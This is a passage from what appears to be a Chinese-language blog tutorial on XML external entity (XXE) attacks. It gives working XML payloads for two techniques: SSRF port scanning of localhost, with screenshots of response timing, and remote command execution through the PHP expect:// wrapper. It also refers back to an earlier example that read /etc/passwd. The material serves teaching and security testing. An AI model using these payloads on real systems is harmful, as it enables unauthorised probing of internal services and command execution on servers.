 

### **端口扫描**



在第一个示例中，我们通过URI将请求指向了/etc/passwd文件，并最终成功的为我们返回了文件中的内容。除此之外，我们也可以使用 http URI 并强制服务器向我们指定的端点和端口发送GET请求，将 XXE 转换为SSRF（服务器端请求伪造）。



以下代码将尝试与端口通信，根据响应时间/长度，攻击者将可以判断该端口是否已被开启。



```
<?xml version="1.0"?>      
<!DOCTYPE GVI [      
    <!ENTITY xxe SYSTEM "http://127.0.0.1:80" >      
]>
```




如下，探测本地81端口是否开放，如果不开放，则响应时间比较久 



![](https://img-blog.csdnimg.cn/20200318213207806.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



探测本地80端口，开放，响应时间很快速



![](https://img-blog.csdnimg.cn/20200318213311996.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### **远程代码执行**



这种情况很少发生，但有些情况下攻击者能够通过XXE执行代码，这主要是由于配置不当/开发内部应用导致的。如果我们足够幸运，并且PHP expect模块被加载到了易受攻击的系统或处理XML的内部应用程序上，那么我们就可以执行如下的命令：



```
<?xml version="1.0"?>      
<!DOCTYPE GVI [ <!ELEMENT foo ANY >      
<!ENTITY xxe SYSTEM "expect://id" >]>      
<catalog>      
   <core id="test101">      
      <author>John, Doe</author>      
      <title>I love XML</title>      
      <category>Computers</category>      
      <price>9.99</price>      1
      <date>2018-10-01</date>      1
      <description>&xxe;</description>      1
   </core>      1
</catalog>
```
